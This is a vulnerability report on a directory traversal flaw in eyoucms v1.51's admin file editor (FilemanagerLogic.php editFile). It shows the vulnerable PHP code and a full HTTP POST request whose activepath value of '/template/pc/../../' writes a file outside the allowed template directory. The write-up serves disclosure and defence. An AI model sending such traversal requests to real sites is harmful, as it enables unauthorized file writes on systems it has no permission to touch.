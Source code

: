 ## Vulnerability description

A directory traversal vulnerability is found in the editFile method of the application/admin/logic/FilemanagerLogic.php file.

## Affects Version



eyoucms v1.51

## Vulnerability certificate



The location is the editFile method in the
application/admin/logic/FilemanagerLogic.php file's editFile method

```java
public function editFile($filename, $activepath = '', $content = '')
{
    $fileinfo = pathinfo($filename);
    $ext = strtolower($fileinfo['extension']);
    $filename = trim($fileinfo['filename'], '.').'.'.$fileinfo['extension'];

    /*不允许越过指定最大级目录的文件编辑*/
    $tmp_max_dir = preg_replace("#\/#i", "\/", $this->maxDir);
    if (!preg_match("#^".$tmp_max_dir."#i", $activepath)) {
        return '没有操作权限！';
    }
    /*--end*/

    /*允许编辑的文件类型*/
    if (!in_array($ext, $this->editExt)) {
        return '只允许操作文件类型如下：'.implode('|', $this->editExt);
    }
    /*--end*/

    $file = $this->baseDir."$activepath/$filename";
    if (!is_writable(dirname($file))) {
        return "请把模板文件目录设置为可写入权限！";
    }
    if ('htm' == $ext) {
        $content = htmlspecialchars_decode($content, ENT_QUOTES);
        foreach ($this->disableFuns as $key => $val) {
            $val_new = msubstr($val, 0, 1).'-'.msubstr($val, 1);
            $content = preg_replace("/(@)?".$val."(\s*)\(/i", "{$val_new}(", $content);
        }
    }
    $fp = fopen($file, "w");
    fputs($fp, $content);
    fclose($fp);
    return true;
}
```

The packet capture is as follows

![image.png](https://gitee.com/nn0nkey/picture/raw/master/img/20241105141232.png)
Grab a package is to see the parameters we can control, see the code logic



![image.png](https://gitee.com/nn0nkey/picture/raw/master/img/20241105141745.png)
You can only edit files in the maxDir directory

```java
$this->maxDir = $this->globalTpCache['web_templets_dir']; 也就是/template
```

This can be bypassed though, in fact it was found that there is no restriction on directory traversal here, we can type something like this

```java
POST /login.php?m=admin&c=Filemanager&a=edit&lang=cn HTTP/1.1
Host: eyoucms:9893
Content-Length: 60
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://eyoucms:9893
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://eyoucms:9893/login.php?m=admin&c=Filemanager&a=edit&filename=index.htm&activepath=%3Atemplate%3Apc&lang=cn
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: admin_lang=cn; home_lang=cn; users_id=1; ENV_GOBACK_URL=%2Flogin.php%3Fm%3Dadmin%26c%3DArchives%26a%3Dindex_archives%26lang%3Dcn; ENV_LIST_URL=%2Flogin.php%3Fm%3Dadmin%26c%3DArchives%26a%3Dindex_archives%26lang%3Dcn; PHPSESSID=ppkqs6v245hconq1ff7fd1tnf1; workspaceParam=welcome%7CIndex
Connection: keep-alive

activepath=/template/pc/../../&filename=b.htm&content=aaaaaa
```

![image.png](https://gitee.com/nn0nkey/picture/raw/master/img/20241105143058.png)
Open the contents and find aaaaaa that the catalog traversal was successful.

![image-20241105175834726](https://gitee.com/nn0nkey/picture/raw/master/img/image-20241105175834726.png)

